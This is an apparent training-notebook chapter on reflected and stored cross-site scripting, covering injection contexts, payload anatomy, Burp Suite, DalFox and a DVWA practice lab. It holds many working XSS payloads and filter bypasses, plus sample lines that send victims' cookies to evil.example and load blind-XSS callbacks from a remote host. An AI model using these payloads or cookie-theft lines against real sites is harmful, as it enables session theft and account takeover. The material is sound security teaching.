







This is Chapter 1 of the Client-Side notebook — Notebook 24. The Injection notebook that
preceded it took you through server-side injection, where your payload changes a query the
*server* runs — SQL, OS commands, templates, XML. Cross-Site Scripting is the mirror image:
your payload changes the code the *victim's browser* runs. Nothing executes on the server;
everything executes in someone else's session, in their tab, with their cookies. That shift
in where the code runs changes the whole threat model, and this chapter builds the mental
model from the ground up before touching a single payload.

We start with what HTML, the DOM, and JavaScript actually are, because you cannot reason
about XSS without knowing how a browser turns bytes into a running program. Then we define
XSS precisely, separate the three families (Reflected, Stored, and DOM-based), and spend
this chapter on the first two — the server-reflected and server-stored variants. DOM-based
XSS, mutation XSS, and turning XSS into full account takeover with BeEF are the next
chapters.

## Part 1: What a Browser Actually Does With a Web Page

To understand XSS you have to understand that a web page is not a document the browser
"shows" — it is a *program* the browser *runs*. When you request `https://shop.example/`,
the server sends back a stream of bytes. Those bytes are text in three interleaved
languages, and the browser has a separate engine for each:

- **HTML** (HyperText Markup Language) — the *structure*. Tags like `<h1>`, `<div>`,
  `<form>`, `<script>` describe what elements exist and how they nest.
- **CSS** (Cascading Style Sheets) — the *presentation*. Colours, layout, fonts.
- **JavaScript** (JS) — the *behaviour*. A full programming language that can read and
  rewrite the page, send network requests, and read cookies.

The browser reads the HTML top to bottom and builds an in-memory tree called the **DOM**
(Document Object Model). Every tag becomes a *node*; nesting becomes parent/child links.
`<p>hello</p>` becomes a `<p>` element node with a text-node child `"hello"`. JavaScript
does not see your raw HTML text — it sees this tree, and it can walk it, add nodes, and
delete nodes at will (`document.querySelector`, `element.innerHTML`, etc.).



The critical fact for XSS is in that diagram: **when the parser meets a `<script>` element,
it stops and hands the contents to the JavaScript engine, which executes them immediately.**
The browser has no way to know whether a given `<script>` was written by the site's
developers or smuggled in by an attacker. Script is script. All the browser knows is
*where in the page* the bytes appeared and *what origin served them*. If attacker-controlled
text reaches the parser in a position where it is interpreted as a tag or as script, the
attacker's code runs with the full authority of the page.

**Why "with the full authority of the page" is the whole game.** JavaScript running on
`https://shop.example/` can do anything the logged-in user could do on that origin:

- Read `document.cookie` (unless a cookie is flagged `HttpOnly`).
- Read the DOM — including CSRF tokens, account details, messages, anything rendered.
- Send authenticated requests to `shop.example` using the victim's session (via `fetch`,
  `XMLHttpRequest`, or by submitting forms) and read the responses.
- Rewrite the page — inject a fake login form, a fake "your session expired" prompt.
- Register keyloggers, capture form input, and exfiltrate it to an attacker server.

That is why XSS, despite "only" being script injection, routinely leads to full account
takeover. The browser's **Same-Origin Policy** (covered in the Web Fundamentals notebook)
is supposed to stop `evil.com` from reading `shop.example`'s data — but XSS runs your code
*as* `shop.example`, so the Same-Origin Policy is on the attacker's side.

## Part 2: What Cross-Site Scripting Actually Is

**Cross-Site Scripting is a vulnerability where an application includes untrusted data in
a web page in a way that lets that data be interpreted as active content (HTML or
JavaScript) by the victim's browser.** The name is historical and slightly misleading — it
was coined when the classic attack was making one site execute script sourced from another
"cross" site. The modern, precise way to think about it: **XSS is HTML/JavaScript injection
into a page rendered in another user's browser.**

Compare it to SQL injection, which you studied in the previous notebook. In SQLi, the app
builds a *SQL query* by concatenating untrusted input, and the database interprets your
input as query syntax. In XSS, the app builds an *HTML page* by concatenating untrusted
input, and the browser interprets your input as markup/script. Same root cause — data
crossing into a code context because it was never safely encoded — different interpreter.



### The three families of XSS

The industry classifies XSS along two axes, which produces the taxonomy you must know cold:

| Type | Where the payload lives | Who it hits | Server sees payload? |
| --- | --- | --- | --- |
| **Reflected XSS** | In the request (URL/param/header); echoed straight back in the response | Only victims who click a crafted link / submit a crafted request | Yes — payload transits the server |
| **Stored (Persistent) XSS** | Saved in the app's datastore (DB, file, cache) and served to many users later | Every user who views the poisoned resource | Yes — payload persists on the server |
| **DOM-based XSS** | Never needs to reach the server; client-side JS reads a source and writes it to a sink | Victims whose browser runs the vulnerable JS | Often **no** — payload can live entirely in the `#fragment` |

This chapter covers **Reflected** and **Stored** — the two server-mediated forms. DOM-based
XSS deserves its own chapter (it's Chapter 2 of this notebook) because the vulnerability
lives in client-side JavaScript, the payload frequently never touches the server, and the
detection methodology is completely different (you trace sources to sinks in JS, not
reflections in HTML responses).

A second, orthogonal distinction you'll hear on bug-bounty programs is **blind XSS** — a
stored XSS whose execution happens somewhere *you never see*, such as an admin support
panel, a log viewer, or an internal dashboard. You submit a payload in, say, a "contact us"
form; hours later a support agent opens the ticket in an internal tool and *their* browser
executes your script. Blind XSS is caught with out-of-band callbacks (a tool like XSS Hunter
or your own Interactsh/collaborator server), which we cover in Part 11.

## Part 3: Contexts — Why the Same Payload Works Here and Fails There

The single most important skill in XSS is reading **context**: *where, exactly, in the HTML
does my input land, and what does the parser think that position means?* The same string is
harmless in one position and executes in another. Get context wrong and you'll fire
hundreds of payloads that never work; get it right and one precise payload lands.

Consider an app that reflects a `name` parameter. Here are five different places it might
put your input, and each needs a different break-out:

**Context 1 — Between HTML tags (element content):**
```html
<div>Hello NAME</div>
```
Here you are in "HTML data" state. To run script you must *introduce a new tag*. The
canonical test is `<script>alert(1)</script>`, or better ``
(fires even when inline `<script>` insertion is blocked by the parser in certain
positions). Your input starts a fresh element; the browser parses it as markup.

**Context 2 — Inside a double-quoted attribute value:**
```html
<input type="text" value="NAME">
```
You're inside the `value` attribute. `<script>` here is just literal text in the attribute
— it will NOT execute. You must first *break out of the attribute and the tag*, or inject a
new attribute. Break out: `">` — the `">` closes the value and
the `<input>` tag, then your `` is a new element. Or stay in the tag and add an event
handler: `" autofocus onfocus=alert(1) x="` — closes the value, adds `autofocus` and an
`onfocus` handler, then re-opens a dummy attribute so the rest parses cleanly.

**Context 3 — Inside a single-quoted attribute value:**
```html
<input type='text' value='NAME'>
```
Same idea but you need a single quote to break out: `' autofocus onfocus=alert(1) x='`.
This is why blindly testing only `"` misses single-quoted sinks.

**Context 4 — Inside a `<script>` block (JavaScript string context):**
```html
<script>var user = "NAME";</script>
```
You are *already inside* running JavaScript. You don't need a new `<script>` tag — you need
to break out of the string literal and inject statements: `";alert(1);//` turns the line
into `var user = "";alert(1);//";`. The `//` comments out the trailing junk. Alternatively
`</script>` works because the HTML parser recognises the literal
`</script>` sequence even inside the script's text and closes the block early — a classic
and important quirk.

**Context 5 — Inside a URL / `href` / `src` attribute:**
```html
<a href="NAME">click</a>
```
Here `javascript:` URIs are the vector: `javascript:alert(1)`. If the value is used as a
link target and you control the scheme, the browser will execute the JS when the link is
followed. Frameworks and browsers increasingly block `javascript:` in some sinks, but it
remains alive in many.



The discipline: **never fire payloads blindly. First submit a unique, harmless marker,
find it in the response source, and read the ten bytes on either side of it.** That tells
you your context and therefore which of the five break-outs you need. We formalise this in
Part 6.

## Part 4: Anatomy of a Payload

A payload has parts, and understanding each part lets you build your own instead of copying
from a list you don't understand.

Take `"><svg onload=alert(document.domain)>`:

- `">` — the **break-out**. It escapes the current attribute value and closes the current
  tag so the parser returns to HTML-data state where a new tag is legal.
- `<svg ...>` — the **injection vector**: a new element whose mere presence or loading can
  trigger script. `<svg onload=...>` fires when the SVG element loads; `` fires when the bogus image fails; `<body onload=...>`, `<iframe
  onload=...>`, `<video><source onerror=...>` are cousins.
- `onload=` / `onerror=` — the **event handler**, an HTML attribute whose value is
  JavaScript the browser runs when the event fires. This is how you execute script without
  a literal `<script>` tag, which matters because many filters strip `<script>` but forget
  the 100+ event-handler attributes.
- `alert(document.domain)` — the **JavaScript proof**. `alert()` pops a dialog; using
  `document.domain` (or `document.cookie`, or `location`) *inside* it proves which origin
  the code ran in — important when a page embeds iframes and you need to show it executed on
  the sensitive origin, not a sandbox.

Why `alert(document.domain)` and not `alert(1)` for a real report? On a bug bounty, triagers
want proof the script ran in the *target's* origin. `alert(document.domain)` prints the
origin in the popup, removing ambiguity. Some programs even ask for `alert(document.cookie)`
to demonstrate session access — but only do that against your own test account, and never
exfiltrate a real user's cookie.

A short menu of vectors that survive different filters, all equivalent "prove execution"
payloads:

```html
<script>alert(document.domain)</script>

<svg onload=alert(document.domain)>
<body onload=alert(document.domain)>
<iframe src="javascript:alert(document.domain)">
<input autofocus onfocus=alert(document.domain)>
<select autofocus onfocus=alert(document.domain)>
<video><source onerror=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
<marquee onstart=alert(document.domain)>
```

**Note the `<svg onload>` and `<details ontoggle>` entries** — these are favourites because
they need no external resource and no user interaction, and `ontoggle`/`onfocus` variants
survive filters that only look for `onerror`/`onload`.

## Part 5: Reflected XSS in Depth

**Reflected XSS** is the variant where your payload travels in the *request* and the server
immediately *reflects* it back in the *response* for that same request, unencoded. Nothing
is stored. The attack therefore requires delivering a crafted request to the victim —
usually a link they click, sometimes an auto-submitting form or an image tag that fires a
GET.

### The mechanism, byte by byte

Imagine a search page. The user searches for `laptop`, and the app helpfully echoes the
term:

Request:
```http
GET /search?q=laptop HTTP/1.1
Host: shop.example
```
Response body:
```html
<h2>Results for laptop</h2>
```

The server built that line with naive concatenation, conceptually:
```python
html = "<h2>Results for " + request.args["q"] + "</h2>"
```

Now the attacker searches for `<script>alert(document.domain)</script>` instead:

Request:
```http
GET /search?q=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E HTTP/1.1
Host: shop.example
```
(`%3C` is `<`, `%3E` is `>`, `%2F` is `/` — URL-encoding, so the value survives transit; the
server URL-decodes it back to the raw characters before concatenating.)

Response body:
```html
<h2>Results for <script>alert(document.domain)</script></h2>
```

The browser parses that `<script>` as a real script element and runs it. The reflection
landed in **HTML element-content context** (Part 3, Context 1), so a raw `<script>` tag
worked with no break-out needed.

### The delivery step — reflected XSS needs a victim to send the request

Because nothing is stored, the attacker must get the victim's browser to issue the malicious
request. Delivery methods:

- **A link** the victim clicks (email, chat, a forum post, a malicious ad):
  `https://shop.example/search?q=<svg onload=fetch('https://evil.example/c?'+document.cookie)>`
  (URL-encoded in practice). This is the classic reflected-XSS phishing lure.
- **An auto-submitting form** on an attacker page for reflected XSS that requires POST:
  ```html
  <form action="https://shop.example/search" method="POST" id="x">
    <input name="q" value="&quot;&gt;&lt;svg onload=alert(document.domain)&gt;">
  </form>
  <script>document.getElementById('x').submit()</script>
  ```
  When the victim visits the attacker page, the form auto-submits to the target, the target
  reflects the payload, and it fires in the victim's session.
- **An ``/`<iframe>`** that forces a GET request to the reflecting endpoint.



**Bug-bounty reality:** reflected XSS is extremely common and still pays, but severity
depends on exploitability. A reflected XSS on a GET endpoint with no unusual headers is
high-impact (one click). A reflected XSS that only triggers on a POST protected by a CSRF
token, or requires an exotic `Content-Type`, is lower severity because delivery is harder —
triagers will ask for a working PoC that a real attacker could deliver. Always include a
copy-paste PoC link or an auto-submit HTML page in your report.

**Reflected-in-non-HTML gotcha:** if the endpoint reflects your input into a JSON or
JavaScript response served with `Content-Type: application/json` and the browser does not
render it as HTML, it usually will *not* execute — the browser doesn't parse JSON as a
document. But if the same endpoint can be coerced to `text/html` (e.g. a `callback=` JSONP
parameter, or a content-type-confusion bug), it becomes live. Reflection is necessary but
not sufficient; execution needs an HTML (or script) parsing context.

## Part 6: A Rigorous Methodology for Finding Reflected XSS

Amateurs spray `<script>alert(1)</script>` at every field and give up when nothing pops.
Professionals follow a repeatable process that finds the reflection first, then reads the
context, then crafts exactly one payload.

### Step 1 — Enumerate every input that could be reflected

Every one of these is a candidate source:

- URL query parameters (`?q=`, `?redirect=`, `?lang=`, `?ref=`).
- URL path segments that get echoed (e.g. a 404 page printing the requested path).
- POST body fields (form fields, JSON keys).
- HTTP headers the app echoes: `Referer`, `User-Agent`, `X-Forwarded-For`, `Origin`,
  and custom headers shown in error pages or admin/log views.
- Cookies whose values are rendered.

Use your proxy (Burp Suite — taught from scratch in Part 8) to map every parameter, and
tools like **Arjun** (parameter discovery, covered in the Web Tooling notebook) to find
*hidden* parameters that are reflected but not linked in the UI.

### Step 2 — Send a unique canary and locate the reflection

Do NOT start with a payload. Start with a **unique, harmless marker** so you can (a) confirm
the input is reflected at all, and (b) find *every* place it lands. Use a distinctive string
unlikely to appear naturally:

```
xss7c3k9   (or a longer random token)
```

Submit `q=xss7c3k9`, then search the raw response for `xss7c3k9`. It might appear zero times
(not reflected — move on), once, or several times (each reflection may be in a different
context and each must be tested). Burp's search box or `Ctrl-F` in the response viewer does
this; at scale, tools like **Gxss** and **kxss** automate "reflect a marker, report which
special characters survive."

### Step 3 — Probe which special characters survive

Now submit a marker *surrounded by* the metacharacters XSS needs, and see which come back
raw vs. encoded:

```
q=xss7c3k9<>"'`/=
```

Look at the reflection in the response **source** (View Source / Burp, not the rendered
page — the rendered page lies). For each metacharacter, note whether it appears literally or
HTML-encoded (`&lt;` `&gt;` `&quot;` `&#39;`). This single test tells you almost everything:

| What survives raw | What it means | Likely payload family |
| --- | --- | --- |
| `<` and `>` survive | You can inject new tags | `<svg onload=...>` / `` |
| `<`/`>` encoded, `"` survives, you're in an attribute | Attribute break-out possible | `" onmouseover=... x="` or `"><svg...>` if `>` also survives |
| Only `'` survives, single-quoted attr | Single-quote break-out | `' onfocus=... x='` |
| Everything encoded | Output encoding present | Look for a different sink/context, or a decoding bug |
| `"` survives inside a `<script>` block | JS-string break-out | `";payload;//` |

### Step 4 — Read the exact context and craft the break-out

Find your marker in source, read the surrounding bytes, and pick the matching break-out from
Part 3. Craft **one** payload. If it doesn't fire, re-read the source — often your break-out
was right but a later character (a stray `"` or an auto-inserted `>`) mangled it, or the
value was truncated by a length limit.

### Step 5 — Confirm execution, not just reflection

Reflection ≠ execution. Confirm with a payload whose *effect is observable*: an `alert()`
popup, a `console.log`, a change to `document.title`, or an out-of-band request. Prefer
`alert(document.domain)` so the popup proves the origin. If popups are inconvenient to
observe at scale, use `` and
watch your server logs.



**Discipline that separates pros from sprayers:** work in the response *source*, test one
context at a time, and change one variable per attempt. When a payload fails, you should be
able to say *why* from the source — not shrug and try the next line in a wordlist.

## Part 7: Stored (Persistent) XSS in Depth

**Stored XSS** is the more dangerous sibling. Instead of bouncing back in one response, the
payload is *saved* by the application — in a database, a file, a cache, a message queue —
and then *served to other users* whenever they view the affected resource. No per-victim
link is needed: the attacker poisons a shared surface once, and every viewer executes the
script automatically. That's why stored XSS on a high-traffic page (a product review, a
forum thread, a user profile, a support ticket) is often rated Critical: it can become a
self-propagating worm (the 2005 Samy MySpace worm added a million "friends" in under a day
via stored XSS).

### The mechanism

Consider a product-review feature. The attacker submits a review whose body is:
```html
Great laptop!<script>fetch('https://evil.example/c?'+encodeURIComponent(document.cookie))</script>
```
The app stores that string verbatim in the `reviews` table. Later, *any* shopper who opens
the product page gets a response containing:
```html
<div class="review">Great laptop!<script>fetch('https://evil.example/c?'+encodeURIComponent(document.cookie))</script></div>
```
Their browser runs the script — sending *their* cookie to the attacker — without ever
clicking a crafted link. The attacker only had to post once.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant S as shop.example (DB)
    participant V1 as Victim 1
    participant V2 as Victim 2
    A->>S: POST /reviews  body = ...&lt;script&gt;steal&lt;/script&gt;
    S-->>S: Stores payload in reviews table
    V1->>S: GET /product/42
    S-->>V1: HTML including stored payload
    V1->>A: cookie exfiltrated
    V2->>S: GET /product/42
    S-->>V2: HTML including stored payload
    V2->>A: cookie exfiltrated
```

### Where stored XSS hides — the sink inventory

Stored XSS appears anywhere user input is saved and later rendered:

- Comments, reviews, forum/blog posts, chat messages.
- Usernames, display names, bios, profile "about" fields, avatars' `alt` text.
- Support tickets, contact-form messages, feedback (classic **blind XSS** — fires in an
  admin/agent panel you never see).
- File names and file metadata (uploading `">.jpg` where the
  filename is later echoed).
- Document titles, spreadsheet cell values, calendar event names, to-do items.
- Data imported from third parties (an "import from CSV" that renders a cell verbatim).
- HTTP headers logged and shown in an analytics/log dashboard (`User-Agent` XSS in a SIEM).

### Stored vs. reflected — the practical differences

| Dimension | Reflected | Stored |
| --- | --- | --- |
| Payload lifetime | One request | Persists until deleted |
| Delivery | Must lure each victim to send a request | Poison once; victims come to you |
| Typical targets | Anyone with the link | Everyone who views the resource |
| Severity baseline | Medium–High | High–Critical (worm potential, admin blast radius) |
| Detection quirk | Find reflection in same response | Payload may render on a *different* page/role than where you submitted it |

**The detection quirk matters:** with stored XSS, the input and the output are often on
different pages, and sometimes in a different user's session entirely. You might submit a
"display name" in your profile settings, but it renders in the site header on *every* page,
in the "recent activity" feed seen by admins, and in a moderation queue. You have to hunt
for *all* the places a stored value surfaces, and encode differently for each context (the
same stored string might be safe in one sink and live in another).

**Blind stored XSS methodology preview:** when you suspect a value is rendered somewhere you
can't see (support desk, admin log), plant a payload that phones home:
```html
"><script src="https://YOURID.xss.report"></script>
```
and use an out-of-band service (XSS Hunter / your own collaborator) that records the origin,
the DOM, cookies, and a screenshot when it fires. If it never fires, no harm; if it does,
you've proven blind stored XSS in an internal panel — often a Critical.

## Part 8: The Toolkit — Burp Suite From Scratch (and Friends)

You can find some XSS in a browser address bar, but real testing needs an intercepting
proxy so you can see and modify every request/response, and a couple of specialised helpers.
This part teaches **Burp Suite** from zero, because it is the tool you'll live in for the
rest of the AppSec track.

### What Burp Suite is and why it exists

**Burp Suite** is an intercepting HTTP proxy and web-security testing platform by
PortSwigger. It sits *between your browser and the target*: your browser is configured to
send all traffic through Burp, so Burp sees every request before it leaves and every
response before the browser renders it — and lets you pause, read, edit, and replay them.
Without a proxy you can only interact with a site the way the developers intended; with one
you can send any bytes you like and inspect exactly what comes back. It ships in a free
**Community** edition (manual tools, throttled Intruder) and a paid **Professional** edition
(the automated Scanner, unrestricted Intruder, and the Collaborator OOB server). Kali Linux
ships Burp Community pre-installed.

**Install / launch on Kali:**
```bash
# Burp Community is pre-installed on Kali; launch from the menu or:
burpsuite &
# If missing:
sudo apt update && sudo apt install -y burpsuite
```
On first run choose *Temporary project* → *Use Burp defaults* → *Start Burp*.

### Burp's architecture — the tabs you'll use for XSS

- **Proxy** — the core. It intercepts traffic. The **HTTP history** sub-tab logs every
  request/response pair — your searchable record of the whole session.
- **Target → Site map** — a tree of everything you've browsed; right-click to send items to
  other tools.
- **Repeater** — send a single request, edit it, resend, and read the response, over and
  over. This is where you hand-craft and refine XSS payloads. `Ctrl-R` sends a request here.
- **Intruder** — automated payload injection: mark a position, load a payload list, fire
  hundreds of variants. Perfect for spraying a curated XSS-polyglot list at one parameter
  and diffing responses. (Community throttles the speed; still usable.)
- **Decoder** — URL/HTML/Base64 encode-decode helper for building payloads.
- **Extensions (BApp Store)** — add-ons; for XSS the useful ones are covered below.

### Configuring the browser to use Burp

The reliable path is Burp's bundled Chromium:
> Proxy tab → **Intercept is on/off** toggle → **Open browser** (launches a pre-configured
Chromium that already trusts Burp's CA and routes through the proxy).

For your own Firefox, set the proxy to `127.0.0.1:8080` and install Burp's CA certificate
(browse to `http://burp` → *CA Certificate* → download → import into the browser's trust
store) so HTTPS interception works without warnings.

### A first XSS workflow in Burp



### The supporting cast

- **XSS Hunter / xsshunter-express / Interactsh** — out-of-band catchers for **blind** XSS.
  They give you a payload that loads a remote script; when it executes anywhere, the service
  logs the origin, URL, DOM, and cookies. Essential for stored XSS in panels you can't see.
- **DalFox** — a fast, modern CLI XSS scanner: it crawls, discovers parameters, tests
  reflections, verifies contexts, and can even fire a headless browser to confirm execution.
  ```bash
  # Install (Go):
  go install github.com/hahwul/dalfox/v2@latest
  # Scan a single URL with a parameter:
  dalfox url "https://shop.example/search?q=FUZZ"
  # Pipe a list of URLs (e.g. from waybackurls/gau) and blind-XSS callback:
  cat urls.txt | dalfox pipe -b https://YOURID.xss.report
  ```
  `-b` sets your blind-XSS callback host; `--custom-payload file.txt` supplies your own list;
  `--waf-evasion` turns on encoding tricks.
- **kxss / Gxss** — quick "reflect a marker, tell me which of `<>"'` survive" tools for
  triaging thousands of URLs before you hand-test.
- **The browser DevTools console** — for reflected/stored testing, View-Source and the
  Elements panel show you the *parsed* DOM vs. the raw HTML, which is how you tell whether
  your `<` became a real tag or an inert `&lt;`.

**A word on scanners:** DalFox and Burp Scanner are force multipliers for *finding candidate
reflections at scale*, but they miss context-dependent and DOM cases, and they produce false
positives. Confirm every hit by hand with a `alert(document.domain)` in a real browser before
you report it.

## Part 9: Hands-On Lab — Reflected and Stored XSS End to End

This lab is fully reproducible on legal, intentionally-vulnerable targets you run or that
are provided for training. **Never point these techniques at a system you are not authorised
to test.** We use two standard targets: **DVWA** (Damn Vulnerable Web Application, self-
hosted) and the free **PortSwigger Web Security Academy** labs (browser-based, legal).

### 9.1 Stand up DVWA in Docker

**DVWA** is a deliberately vulnerable PHP/MySQL app used to practise the OWASP classics at
adjustable difficulty ("security level" low → impossible). Run it in a throwaway container:

```bash
# Pull and run DVWA; it exposes the app on http://localhost:8080
docker run --rm -it -p 8080:80 vulnerables/web-dvwa

# Then browse to http://localhost:8080
# Login: admin / password
# Click "Create / Reset Database", then set DVWA Security to "low" (top-right menu)
```

Point your browser through Burp (Part 8) so every request is captured.

### 9.2 Reflected XSS on DVWA (security = low)

Navigate to **XSS (Reflected)**. The page has a "What's your name?" box that echoes your
input. First, the canary:

Request (seen in Burp):
```http
GET /vulnerabilities/xss_r/?name=xss7c3k9 HTTP/1.1
Host: localhost:8080
Cookie: PHPSESSID=...; security=low
```
Response (relevant fragment, viewed in **source**):
```html
<pre>Hello xss7c3k9</pre>
```
Our marker landed **between tags** (element-content context). No break-out needed — inject a
tag directly. In Repeater, change `name` to a URL-encoded payload:

```http
GET /vulnerabilities/xss_r/?name=%3Csvg%20onload%3Dalert(document.domain)%3E HTTP/1.1
```
Response:
```html
<pre>Hello <svg onload=alert(document.domain)></pre>
```
Open the equivalent URL in the Burp browser:
```
http://localhost:8080/vulnerabilities/xss_r/?name=<svg onload=alert(document.domain)>
```
A dialog pops reading **`localhost`** (or `localhost:8080`'s domain) — execution confirmed in
the target origin. 

**Now raise the difficulty.** Set DVWA security to **medium**. The medium filter does a naive
`str_replace('<script>', '', $name)` — it strips the literal lowercase `<script>` once. Two
bypasses that teach real lessons:

- **Case variation:** `<ScRiPt>alert(document.domain)</ScRiPt>` — the filter matches only
  lowercase `<script>`, HTML tags are case-insensitive, so this survives and runs.
- **Nested/duplicated:** `<scr<script>ipt>alert(document.domain)</script>` — after the filter
  deletes the inner `<script>`, the remaining characters re-form `<script>`.
- **Non-`<script>` vector (cleanest):** `<svg onload=alert(document.domain)>` — the filter
  only targets `<script>`, so an event-handler vector sails through untouched. This is the
  key lesson: **blocklisting one tag is not XSS defence.**

At security **high**, DVWA uses a stricter regex (`/<(script|...)/i` variants). You escalate
to event-handler tags and, where `>` is filtered, to attribute-context and encoding tricks
(Part 10). At **impossible**, DVWA correctly HTML-encodes output (`htmlspecialchars`) and the
reflection becomes inert `&lt;svg ...&gt;` — demonstrating the actual fix.

### 9.3 Stored XSS on DVWA (security = low)

Navigate to **XSS (Stored)** — a guestbook with `Name` and `Message` fields. In the `Message`
box (the `Name` field has a `maxlength`; you can lift it by editing the request in Burp),
submit:

```html
<svg onload=alert(document.domain)>
```
Submit. The guestbook stores it. Now *reload the page* — the payload fires immediately,
